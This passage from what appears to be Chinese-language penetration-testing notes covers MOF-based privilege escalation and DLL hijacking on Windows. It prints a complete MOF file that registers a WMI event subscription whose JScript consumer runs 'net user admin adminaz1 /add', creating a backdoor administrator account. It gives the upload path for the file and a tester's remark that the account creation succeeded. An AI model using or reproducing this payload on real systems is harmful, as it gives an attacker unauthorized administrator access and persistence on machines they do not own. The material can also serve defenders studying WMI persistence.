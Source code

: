 更多用法：http://www.feiesoft.com/windows/cmd/schtasks.htm  

##### SMB+MOF || DLL Hijacks
其实这个思路一般都有用到的,比如在mof提权(上传mof文件到c:/windows/system32/wbem/mof/mof.mof)中,lpk_dll劫持  
不过测试添加账号成功...执行文件缺失败了  
```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin adminaz1 /add\")";
};
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

##### PTH + compmgmt.msc  
